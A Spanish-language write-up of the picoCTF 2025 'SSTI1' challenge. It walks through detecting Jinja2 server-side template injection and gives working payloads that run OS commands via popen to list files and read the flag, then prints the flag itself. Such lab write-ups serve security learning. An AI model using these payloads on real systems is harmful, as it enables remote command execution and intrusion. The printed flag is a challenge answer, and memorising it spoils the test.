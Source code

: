 
## Reto
### SSTI1

## Descripcion
I made a cool website where you can announce whatever you want! Try it out!
## Solucion
- al entrar a la pagina vemos un cuadro de texto
- si ponemos algo y damos enter nos aparece el texto que pusimos grande y en negritas
- por el nombre del desafio inferimos que no hay filtros en el input y podemos hacer una inyeccion por el lado del servidor con SSTI(Server Side Template Inyection)
- ponemos ` {{ 7 * 7 }}` y vemos que nos regresa "49", osea que si podemos hacer una inyeccion y que esta corriendo en Jinja2
- usamos esto para ver que hay guardado en servidor
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```
 - no devuelve esto:
 ```
# .: __pycache__ app.py flag requirements.txt ./__pycache__: app.cpython-38.pyc  
```
- ya encontramos la bandera y para abrila usamos:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
- y obtenemos la bandera: **picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}**
## Notas

## Referencias
[CTF Writeup | PicoCTF 2025 | SSTI1 | by oofman69 | Medium](https://medium.com/@seowliyang/ctf-writeup-picoctf-2025-ssti1-2d1237f37442)